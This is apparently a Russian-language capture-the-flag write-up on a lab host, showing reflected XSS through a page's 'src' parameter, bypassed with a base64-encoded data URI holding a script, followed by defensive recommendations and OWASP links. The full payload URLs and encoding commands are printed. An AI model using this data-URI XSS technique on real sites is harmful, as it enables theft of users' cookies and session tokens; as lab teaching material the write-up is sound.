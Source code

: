 The data uri scheme, mime types and xss

http://192.168.56.110/index.php?page=media&src=nsa

Вместо nsa пробуем вставить рисунок получаем:
http://192.168.56.110/?page=media&src=/images/nsa.png

Вместо nsa пробуем вставить js скрипт получаем Sorry Wrong Answre:
192.168.56.110/?page=media&src=<script>alert("hello!");</script>
Если мы посмотрим Page source то можем заметить что 
<object data="<script>alert(&quot;hello!&quot;);</script>"></object>

Оказывается, мы можем использовать base64 для кодирования нашего скрипта в javascript

согласно статье в Википедии :

https://en.wikipedia.org/wiki/Data_URI_scheme
Синтаксис URI данных был определен в RFC 2397, опубликованном в августе 1998 г. [5], и следует синтаксису схемы URI. URI data состоит из:
data:[<media type>][;base64],<data>
данные: [<тип носителя>][; base64],<данные>

Через терминал находим кодировку base64
echo -n '<script>alert("hello");</script>' | base64 
PHNjcmlwdD5hbGVydCgiaGVsbG8iKTs8L3NjcmlwdD4=

или на сайте 
https://base64.guru/converter/encode
<script>alert("hello");</script>
PHNjcmlwdD5hbGVydCgiaGVsbG8iKTs8L3NjcmlwdD4=

Вставляем base64 согласно формата в строку поиска и находим флаг

http://192.168.56.110/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGVsbG8iKTs8L3NjcmlwdD4=


вредоносный скрипт может получить доступ к любым файлам cookie, токенам сеанса или другой конфиденциальной информации, сохраненной браузером и используемой на этом сайте.

Рекомендации к защите

* Никогда не вставлять ненадежные данные, кроме как в разрешенных тэгах.

* Зашифровать все данные, которые передаются в html запросе

* Установить мониторинг символов, чтобы символы, которые передаются, заменялись подобными. Тем самым скрипт не заработает. Если апостроф, то заменить одинарными ковычками.

https://owasp.org/www-community/attacks/xss/

Basic XSS Test Without Filter Evasion

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

RFC 2397 re The "data" URL scheme  

https://www.ietf.org/rfc/rfc2397.txt




